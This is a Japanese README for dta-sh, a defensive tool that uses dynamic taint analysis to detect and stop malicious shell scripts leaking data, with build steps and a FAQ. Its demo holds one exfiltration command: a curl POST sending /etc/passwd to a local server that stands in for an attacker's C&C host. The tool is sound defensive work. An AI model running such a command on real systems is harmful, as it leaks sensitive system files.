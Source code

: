 # 動的テイント解析を用いた悪性シェルスクリプトによる情報漏洩の阻止

dta-sh は動的テイント解析を用いて悪性シェルスクリプトによる情報漏洩を阻止するためのツール。
動的テイント解析には[libdft64](https://github.com/AngoraFuzzer/libdft64)を用いる。

## クイックスタート
`/etc/passwd`を外部に漏洩させるシェルスクリプトスクリプトの漏洩を阻止するデモ。
このシェルスクリプトはcurlコマンドを使用してPOSTリクエストで外部にファイルを送信する。
`src/sendfile.sh`にある。
```bash
# 情報漏洩を行うコマンド
curl -X POST -F f=@"/etc/passwd" localhost:9999
```
ファイルの送信先（漏洩先）は自分自身とする。
本来localhost:9999の部分は攻撃者が用意するC&Cサーバのドメイン名であるが、漏洩させるファイルを自身で受け取るためここではlocalhostとなる。

### デモの実行方法
```bash
# 依存関係をインストール（初回のみ）
./setup.sh

# 環境変数(PIN_ROOT)を設定
source ./env.init

# POSTリクエストを受け取るHTTPサーバを起動
python3 server.py &

# dta-shをビルド
cd src
make

# デモを実行
make test
```
ログがたくさん出て、最終的に`[pid 93112] alert           : !!!! ABORT !!!!    Data leak detected`と出力されたらこのデモは成功。
うまく行かない場合は[FAQ](#FAQ)を参照。

### dta-shを使わない場合
作成したツール dta-sh を使わない場合どうなるか確認。
単に`sendfile.sh`を実行する。
```bash
./sendfile.sh
```
先程サーバを起動したターミナルに戻ると、赤文字の`/etc/passwd`の内容が出力されているはず。
これはサーバが受け取ったデータで、POSTリクエストにより`/etc/passwd`の内容が漏洩した。

## FAQ
エラーに関するものは起きたエラーがそのままタイトル。

### Makefile:18: /Config/makefile.default.rules: No such file or directory
[`PIN_ROOT`](#PIN_ROOTとは)が設定されておらず、PinのMakefileが見つからない。
Pinのディレクトリを環境変数経由で教えてやる。

```bash
source env.init
```

### dta-sh.cpp:58:15: error: unused variable 'sockfd' [-Werror=unused-variable]
Pintoolのコンパイルに`-Werror`が有効なため、WarningがすべてErrorとして扱われる。
Pintoolのコンパイルオプションはpin-3.20-98437-gf02b61307-gcc-linux/source/tools/Config/makefile.unix.configで定義されているため、`-Werror`を削除することでコンパイルが通る（WarningはWarningとして扱われる）。

```diff
- TOOL_CXXFLAGS_NOOPT := -Wall -Werror -Wno-unknown-pragmas -DPIN_CRT=1
+ TOOL_CXXFLAGS_NOOPT := -Wall -Wno-unknown-pragmas -DPIN_CRT=1
```

### likely()/unlikely()
条件分岐を最適化するためにコンパイラに与えるヒント。
libdft64/src/branch_pred.hで定義されている。

ref. https://stackoverflow.com/questions/109710/how-do-the-likely-unlikely-macros-in-the-linux-kernel-work-and-what-is-their-ben

### curl: (7) Failed to connect to localhost port 9999 after 468 ms: Connection refused
ローカルサーバが立っていない。
サーバを立ててやる。`&`はバックグラウンド実行の意味（Bashの機能）。

```
python3 server.py &
```

### PIN_ROOTとは
libdft64にPinのパスを教えるための環境変数。
make時、libdft64はこの変数を読んでpin.Hなりの場所を知る。

ref. https://software.intel.com/sites/landingpage/pintool/docs/98650/Pin/doc/html/index.html#UsefulVariables

### なぜMakefileとmakefile.rulesの2つがあるのか
Makefileは設定（ビルド用の変数`CXX := g++`など）を読み込む、ビルドレシピを読み込むファイル、
makefile.rulesはビルドするlibdft toolを定義するファイル。
Makefileは編集せず、makefile.rulesにのみビルドするlibdft toolを定義する。
変数などが隠されていて分かりにくい部分もあるが、libdft64/toolsのビルド方法をそのまま採用した。

### libdft tool（dta-sh.cppなど）のビルドレシピの場所
libdft toolを作る場合は、明示的にツールのビルドレシピを定義しなくてよい。
makefile.rulesの`TOOL_ROOT`にビルドするツールのファイル名（の拡張子を取ったもの）を定義するだけ。
詳細なビルドレシピは別の場所で定義されていて隠されている。
例えば、dta-sh.cppというlibdft toolをビルドするためには`TOOL_ROOT := dta-sh`と定義する。
するとmakeを実行するだけでobj-intel64/dta-sh.soというファイルが生成される。

### コールバック関数のTHREADIDとは
本ツールでは使わない。
THREADIDはPinのスレッドが使用するデータの配列へのインデックス。
ここでのスレッドはWinAPIのスレッドやPthreadsのスレッドではなく、Pinが管理するスレッド。

> Pin also provides an analysis routine argument (IARG_THREAD_ID), which passes a Pin-specific thread ID for the calling thread. This ID is different from the O/S system thread ID, and is a small number starting at 0, which can be used as an index to an array of thread data or as the locking value to Pin user locks. See the example Instrumenting Threaded Applications for more information.

ref. https://software.intel.com/sites/landingpage/pintool/docs/98650/Pin/doc/html/index.html#MT
